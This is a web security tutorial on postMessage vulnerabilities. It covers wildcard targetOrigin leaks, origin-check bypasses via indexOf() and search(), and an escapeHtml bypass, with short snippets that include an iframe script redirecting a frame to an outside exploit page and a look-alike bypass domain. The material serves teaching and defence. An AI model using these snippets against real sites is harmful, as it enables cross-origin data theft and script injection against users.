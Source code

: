 # PostMessage Vulnerabilities

## **PostMessages wildcards**

**PostMessage** uses the following function to send a message:

```javascript
targetWindow.postMessage(message, targetOrigin, [transfer]);
```

Check that **targetOrigin** could be a url like [https://company.com](https://company.com), so the messages can only be sent to that user \(secure\). Or it cloud be a wildcard "**\***". In case a wildcard is used, messages could be sent to any domain.

### Attack

In [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) you can read how you could **iframe a page** that at some point may **sent** a **postmessage** using a **wildcard as targetOrigin** and **modify it's location so the data will be sent to an arbitrary domain**. In order to be able to perform this attack **X-Frame header must not be present** in the vuln page.

```markup
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code


        setTimeout(function(){ exp(); }, 6000);

        function exp(){
        setInterval(function(){ 
         window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
        }, 100);
        }
    </script>
</html>
```

## addEventListener exploitation

In order to treat the messages a code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the first thing that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information \(like changing a password\). If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints and change the victims passwords \(in this example\).

It's important to check the origin and it's **equally important to check it right:**

### Tips/Bypasses in PostMessage vulnerabilities

Copied from [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)

* If `indexOf()` is used to check the origin of the PostMessage event, remember that it can be bypassed if the origin is contained in the string as seen in [_The Bypass_](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html#bypass)
* [@filedescriptor](https://twitter.com/filedescriptor): Using `search()` to validate the origin could be insecure. According to the docs of `String.prototype.search()`, the method takes a regular repression object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.

```javascript
"https://www.safedomain.com".search(t.origin)
```

In regular expression, a dot \(.\) is treated as a wildcard. In other words, any character of the origin can be replaced with a dot. An attacker can take advantage of it and use a special domain instead of the official one to bypass the validation, such as **www.s.afedomain.com**.

* [@bored-engineer](https://bored.engineer/): If `escapeHtml` function is used, the function does not create a `new` escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

